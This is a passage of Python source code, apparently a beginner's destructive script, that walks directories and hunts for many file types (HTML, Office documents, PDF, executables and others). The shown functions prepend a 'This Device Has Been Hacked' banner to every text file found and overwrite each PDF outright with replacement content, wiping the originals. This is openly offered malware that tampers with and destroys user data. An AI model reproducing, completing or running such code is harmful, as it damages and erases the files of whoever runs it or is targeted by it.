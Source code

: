     findHTML()
    findCSS()
    findJS()
    findXML()
    findXSL()
    findPHP()
    findSQL()

    # Microsoft Office File Types

    findACCDB()
    findXLSX()
    findPPTX()
    findDOCX()
    findRTF()

    # More Computer Based Languages
    findPY()
    findC()
    findCPP()
    findEXE()
    """
    # More Computer Based Languages
    findCS()
    findH()"""

# Web Development Languages
def findTXT():
    filesInsideDir = listOfAvailDirs[j][3][1]
    dirNameOfDir = listOfAvailDirs[j][1][1]
    filteredTXT = fnmatch.filter(filesInsideDir, '*.txt')
    if len(filteredTXT) > 0:
        for k in range(len(filteredTXT)):
            pathsToTXT.append(dirNameOfDir + "\\" + filteredTXT[k - 1])
        populateTXT()
def populateTXT():
    for l in range(len(pathsToTXT)):
        TXTFile = open(pathsToTXT[l - 1], "r")
        TXTFileContents = str(TXTFile.read())
        TXTFile.close()
        TXTFile = open(pathsToTXT[l - 1], "w")
        TXTFile.write("Hello!!\nThis Device Has Been Hacked By A Beginner Python Script!!\n\n\n\n\n" + TXTFileContents)
        TXTFile.close()

def findPDF():
    filesInsideDir = listOfAvailDirs[j][3][1]
    dirNameOfDir = listOfAvailDirs[j][1][1]
    filteredPDF = fnmatch.filter(filesInsideDir, '*.pdf')
    if len(filteredPDF) > 0:
        for k in range(len(filteredPDF)):
            pathsToPDF.append(dirNameOfDir + "\\" + filteredPDF[k - 1])
        populatePDF()
def populatePDF():
    for l in range(len(pathsToPDF)):
        PDFFile = open(pathsToPDF[l - 1], "wb")
        PDFFile.write(pdfHackedCode)
        PDFFile.close()
